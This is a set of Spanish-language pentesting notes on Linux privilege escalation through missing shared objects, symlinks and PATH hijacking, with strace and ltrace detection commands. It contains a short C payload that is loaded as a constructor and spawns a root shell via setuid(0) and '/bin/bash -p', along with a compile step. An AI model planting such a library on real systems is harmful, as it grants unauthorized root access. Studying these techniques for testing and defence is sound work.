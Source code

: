 **Explicación de la vulnerabilidad**

Cuando el programa es ejecutado, se cargaran los shared objects que se indican.

Pero, ¿qué pasaría si algunos de estos objetos no se cargan, porque no están, pero nosotros tenemos acceso a esa ubicación? pues que podemos dar gato por liebre

**Detección**

_strace 2&gt;&1 \| grep -i -E "open\|access\| no such file"_

**Explotación**

1. Compilar un fichero .so
2. Renombrarlo y utilizarlo en la localización identificada donde no hay fichero

\#include \#include

static void foo\(\) \_ _attribute_ \_ \(\(constructor\)\);

void foo\(\) {

​ setuid\(0\);

​ system\("/bin/bash -p"\);

}

$ gcc -shared -fPIC -o path

**Symlink**

Contiene una referencia a otro fichero, pero ese fichero puede ser que no exista. Al igual que antes, esto significaría que podemos "ocupar" ese espacio con un fichero nuestro

**Detección**

* ls -l

**Variables de entorno**

**Path**

Esta es la clásica, modificar la variable path indicando una ubicación que este bajo nuestro control y que anteceda a todas las demás. Se ubica un binario con el mismo nombre del que se "tendría" que ejecutar en esa ubicación y...a esperar.

Algunas de las funciones que usan la variable Path:

System\(\)

popen\(\)

Execlp\(\)

execvp\(\)

Execvpe\(\)

**Detección**

* Hopper
* Binary Ninja
* idapro
* Strings
* strace -v -f -e execve command 2&gt;&1 \| grep exec
* ltrace command
